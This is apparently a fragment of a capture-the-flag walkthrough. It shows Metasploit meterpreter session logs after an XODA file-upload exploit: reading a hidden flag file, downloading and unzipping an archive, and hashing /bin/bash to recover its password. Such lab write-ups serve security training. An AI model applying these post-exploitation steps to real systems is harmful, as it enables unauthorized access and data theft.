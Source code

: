 ```
meterpreter > cd "Secret Files"
meterpreter > ls
Listing: /app/Secret Files
==========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100777/rwxrwxrwx  33    fil   2018-10-06 05:16:03 +0000  .flag2

meterpreter > cat .flag2
bbbb3ed27502614e27bff65faea008a0
meterpreter > cd ..
```

```
meterpreter > download flag5.zip
[*] Downloading: flag5.zip -> flag5.zip
[*] Downloaded 208.00 B of 208.00 B (100.0%): flag5.zip -> flag5.zip
[*] download   : flag5.zip -> flag5.zip
meterpreter > 
Background session xoda? [y/N]
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > ls
[*] exec: ls

README
flag5.zip
tools
wordlists
msf5 exploit(unix/webapp/xoda_file_upload) > unzip flag5.zip
[*] exec: unzip flag5.zip

[flag5.zip] list password: Archive:  flag5.zip

 extracting: list                    
msf5 exploit(unix/webapp/xoda_file_upload) > ls
[*] exec: ls

README
flag5.zip
list
tools
wordlists
msf5 exploit(unix/webapp/xoda_file_upload) > cat list
[*] exec: cat list

MD5 hash of /bin/bash
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions 4
[*] Starting interaction with xoda...

meterpreter > checksum md5 /bin/bash
164ebd6889588da166a52ca0d57b9004  /bin/bash
```
